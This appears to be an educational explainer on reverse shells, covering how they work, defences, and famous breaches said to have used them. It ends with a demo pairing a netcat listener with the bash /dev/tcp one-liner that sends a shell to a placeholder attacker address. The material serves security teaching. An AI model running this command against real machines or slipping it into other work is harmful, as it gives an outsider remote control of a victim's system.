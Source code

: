 # Reverse Shell

## 1. Definition
A reverse shell is a type of shell session established between a victim's machine and an attacker's machine where the connection is initiated from the victim's side.

## 2. How It Works
- **Victim's Role**: The victim's machine initiates an outbound connection to the attacker's machine.
- **Attacker's Role**: The attacker's machine listens for incoming connections on a specified port.
- **Connection Established**: Once connected, the attacker gains control of the victim's machine, executing commands remotely as if they had local access.

## 3. Key Characteristics
- **Bypasses Firewalls**: Since the victim initiates the connection, it can often bypass firewall rules that block inbound connections.
- **Stealthy**: Often used in targeted attacks to maintain a low profile within a compromised network.

## 4. Common Use Cases
- **Exploitation**: Used by attackers after gaining initial access to a system to maintain control and exfiltrate data.
- **Penetration Testing**: Ethical hackers use reverse shells to test the security of a network.

## 5. Example Scenario
**Attack Flow**:
1. Attacker sets up a listener on their machine (e.g., using Netcat).
2. Victim executes malicious code that connects back to the attacker.
3. The attacker gains a remote shell on the victim's machine.

## 6. Defense Strategies
- **Network Monitoring**: Monitor outbound traffic for suspicious connections.
- **Firewalls and IDS/IPS**: Use firewalls and intrusion detection/prevention systems to block unauthorized outbound connections.

## Famous Cases Where Attackers Gained Reverse Shells

### 1. Stuxnet (2010)
- **Overview**: Stuxnet was a sophisticated cyber-weapon, believed to have been developed by the U.S. and Israeli governments, designed to disrupt Iran's nuclear enrichment program.
- **Attack Vector**: Stuxnet exploited multiple zero-day vulnerabilities to infiltrate the industrial control systems (ICS) of Iran's nuclear facilities.
- **Reverse Shell Usage**: The malware was capable of establishing reverse shells to communicate with command and control (C&C) servers, allowing attackers to send commands and gather intelligence from the infected machines.
- **Impact**: Stuxnet is credited with causing significant delays in Iran's nuclear program by damaging centrifuges used for uranium enrichment.

### 2. APT28/Fancy Bear (2015)
- **Overview**: APT28, also known as Fancy Bear, is a cyber-espionage group linked to the Russian military intelligence agency GRU. They have been implicated in numerous high-profile cyberattacks, including the 2016 U.S. presidential election.
- **Attack Vector**: APT28 uses phishing emails, malicious attachments, and exploit kits to compromise target systems.
- **Reverse Shell Usage**: Once inside a network, they deploy custom malware like X-Agent, which can establish reverse shells to maintain persistence and exfiltrate sensitive data.
- **Impact**: APT28 has been involved in attacks against government agencies, military organizations, and political entities, often stealing classified information.

### 3. Target Data Breach (2013)
- **Overview**: The Target data breach is one of the most infamous retail breaches, where attackers compromised the payment card data of over 40 million customers.
- **Attack Vector**: The attackers gained access to Target's network through a third-party vendor, Fazio Mechanical Services, using stolen credentials.
- **Reverse Shell Usage**: After gaining initial access, the attackers deployed malware that established reverse shells, allowing them to navigate Target’s internal network, locate payment data, and exfiltrate it.
- **Impact**: The breach led to significant financial losses for Target, including settlements, fines, and the cost of compensating affected customers.

### 4. Sony Pictures Hack (2014)
- **Overview**: The Sony Pictures hack was a significant cyberattack attributed to a group called the Guardians of Peace, allegedly linked to North Korea. The attack aimed to prevent the release of the movie *The Interview*.
- **Attack Vector**: The attackers used spear-phishing emails to gain initial access to Sony’s network.
- **Reverse Shell Usage**: Once inside, the attackers deployed custom malware capable of creating reverse shells, giving them remote control over Sony’s systems to steal data, delete files, and release confidential information.
- **Impact**: The attack resulted in the leak of unreleased films, sensitive employee data, and damaging emails. Sony suffered both financial and reputational damage.

### 5. Equifax Data Breach (2017)
- **Overview**: The Equifax data breach exposed the personal information of 147 million people, making it one of the largest data breaches in history.
- **Attack Vector**: The breach exploited a vulnerability in the Apache Struts web application framework used by Equifax.
- **Reverse Shell Usage**: The attackers used this vulnerability to gain a foothold in the network and likely established reverse shells to maintain access and move laterally across the network, exfiltrating sensitive data over several months.
- **Impact**: The breach led to widespread identity theft concerns, multiple lawsuits, and significant scrutiny of Equifax’s security practices.

### 6. Kevin Mitnick Case (1994)
- **Overview**: Kevin Mitnick, one of the most notorious hackers in history, became the most-wanted cybercriminal in the U.S. He was involved in numerous high-profile attacks on major corporations and government networks.
- **Attack Vector**: On Christmas Eve in 1994, Mitnick famously hacked into the computer of Tsutomu Shimomura, a cybersecurity expert. Mitnick used a combination of social engineering, IP spoofing, and exploiting vulnerabilities to gain unauthorized access.
- **Reverse Shell Usage**: While the specific use of a reverse shell in this incident isn't widely documented, Mitnick used techniques similar to reverse shells that allowed him to remotely control and manipulate systems after gaining access.
- **Impact**: The attack on Shimomura's system was a key event that eventually led to Mitnick's capture. This hack, along with his other activities, highlighted the vulnerabilities in computer systems and brought significant attention to cybersecurity issues. Mitnick was arrested in February 1995, and after serving time in prison, he became a cybersecurity consultant and author.

## 7. A Short Demo

The command /bin/bash -i > /dev/tcp/server_IP/port 0<&1 2>&1 is a way to redirect the input and output of an interactive Bash shell to a TCP connection. Here's a detailed breakdown of what happens:

```text
/bin/bash -i: This starts an interactive Bash shell.
> /dev/tcp/server_IP/port: This redirects the standard output (stdout) of the Bash shell to a TCP connection to the specified server and port.
0<&1: This redirects the standard input (stdin) to come from the same file descriptor as stdout.
2>&1: This redirects the standard error (stderr) to the same file descriptor as stdout.
```

Injecting a command like this above one is how attackers usually obtain a reverse shell on a victim's machine. For example:

If an attacker runs:

```console
$ nc -lv 9090
```
<!--sometimes, we need to specify the ip address, like: $ nc -lv 10.0.2.6 9090 -->

and a victim runs (replace *attacker_ip* with the IP address of the attacker):

```console
$ /bin/bash -i > /dev/tcp/attacker_ip/9090 0<&1 2>&1
```

The attacker will obtain a reverse shell, which allows the attacker to gain control of the victim's machine.
